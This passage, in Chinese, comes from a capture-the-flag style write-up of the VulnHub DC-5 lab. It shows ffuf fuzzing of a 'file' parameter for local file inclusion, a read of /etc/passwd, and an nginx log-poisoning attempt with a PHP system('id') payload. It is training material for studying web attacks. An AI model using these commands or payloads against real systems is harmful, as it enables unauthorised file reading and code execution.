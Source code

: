 ![](D:\stu\vulnhub\DC靶场\pic-5\5.jpg)

发现参数`file`，那么再测试有什么可注入点，通过这个参数

```shell
ffuf -c -w /usr/share/wordlists/wfuzz/Injections/All_attack.txt -u http://192.168.10.4/thankyou.php?file=FUZZ -fs 835
#-fs后面的数据变化了，是因为数据大小发生变化，在有file参数后，原始的大小变为835
```

![](D:\stu\vulnhub\DC靶场\pic-5\6.jpg)

通过构造链接，获取`/etc/passwd`文件，发现靶机内有一个用户`dc`

![](D:\stu\vulnhub\DC靶场\pic-5\7.jpg)

但是这里没有办法获取`/etc/shadow`文件，所以继续寻找其他点，尝试使用从`github`上获取的字典，继续进行测试

```shell
ffuf -c -w /usr/share/wordlists/linux_file.txt -u http://192.168.10.4/thankyou.php?file=FUZZ -fs 835
```

![](D:\stu\vulnhub\DC靶场\pic-5\8.jpg)

# 漏洞利用

但是这里访问一圈，没有获取到有用信息。

这时候去前面看了一下`nmap`的扫描， 想起这里的网站使用的是`nginx`，偏偏使用的字典没有包括这个，这里就手动输入

| 路径                        | 作用                                            |
| --------------------------- | ----------------------------------------------- |
| `/etc/nginx/nginx.conf`     | 主配置文件                                      |
| `/var/log/nginx/access.log` | 访问日志配置，它将访问日志记录                  |
| `/var/log/nginx/error.log`  | 记录 Nginx 服务器在运行过程中出现的各种错误信息 |

经过测试，日志文件`error.log`会记录信息，但是`access.log`并无记录信息

既然是错误的日志，那么就尝试给予一个传参的值为`php`代码，然后进行测试

先传入简单的代码进行测试`<?php system('id');?>`

```shell
http://192.168.10.4/thankyou.php?file=<?php system('id');>
```

访问记录错误的日志文件，发现其中的代码被进行`url`编码了

访问链接，最好以查看源代码的形式，不然容易出错，或者看不清

```shell
view-source:http://192.168.10.4/thankyou.php?file=/var/log/nginx/error.log
```

![](D:\stu\vulnhub\DC靶场\pic-5\9.jpg)
